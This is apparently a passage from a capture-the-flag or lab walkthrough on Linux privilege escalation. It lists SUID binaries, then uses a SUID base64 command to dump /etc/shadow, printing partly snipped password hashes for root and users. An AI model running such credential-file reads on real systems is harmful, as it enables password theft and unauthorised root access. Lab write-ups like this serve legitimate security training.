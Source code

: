 ```
37209171   52 -rwsr-x--- 1 root     sssd        49592 Oct 15  2020 /usr/libexec/sssd/selinux_child
37209165   28 -rwsr-x--- 1 root     sssd        27792 Oct 15  2020 /usr/libexec/sssd/proxy_child
18270608   16 -rwsr-sr-x   1 abrt     abrt        15344 Oct  1  2020 /usr/libexec/abrt-action-install-debuginfo-to-abrt-cache
18535928   56 -rwsr-xr-x   1 root     root        53776 Mar 18  2020 /usr/libexec/flatpak-bwrap
```

With it we should be able to get access to the `/etc/shadow` file:

```
[leonard@ip-10-10-54-52 perl5]$ base64 /etc/shadow | base64 -d
root:$6$DWBzMoiprTTJ4gbW$<<--snipped-->>TjOW/yrzV5HtIL51::0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
shutdown:*:18353:0:99999:7:::
halt:*:18353:0:99999:7:::
mail:*:18353:0:99999:7:::
operator:*:18353:0:99999:7:::
games:*:18353:0:99999:7:::
ftp:*:18353:0:99999:7:::
nobody:*:18353:0:99999:7:::
pegasus:!!:18785::::::
systemd-network:!!:18785::::::
dbus:!!:18785::::::
polkitd:!!:18785::::::
colord:!!:18785::::::
unbound:!!:18785::::::
libstoragemgmt:!!:18785::::::
saslauth:!!:18785::::::
rpc:!!:18785:0:99999:7:::
gluster:!!:18785::::::
abrt:!!:18785::::::
postfix:!!:18785::::::
setroubleshoot:!!:18785::::::
rtkit:!!:18785::::::
pulse:!!:18785::::::
radvd:!!:18785::::::
chrony:!!:18785::::::
saned:!!:18785::::::
apache:!!:18785::::::
qemu:!!:18785::::::
ntp:!!:18785::::::
tss:!!:18785::::::
sssd:!!:18785::::::
usbmuxd:!!:18785::::::
geoclue:!!:18785::::::
gdm:!!:18785::::::
rpcuser:!!:18785::::::
nfsnobody:!!:18785::::::
gnome-initial-setup:!!:18785::::::
pcp:!!:18785::::::
sshd:!!:18785::::::
avahi:!!:18785::::::
oprofile:!!:18785::::::
tcpdump:!!:18785::::::
leonard:$6$JELumeiiJFPMFj3X$<<--snipped-->>v7TKavJNAm7ZjRi4/::0:99999:7:::
mailnull:!!:18785::::::
smmsp:!!:18785::::::
nscd:!!:18785::::::
missy:$6$BjOlWE21$<<--snipped-->>D2JCUypk4HazI3rPVqKHb/:18785:0:99999:7:::
```
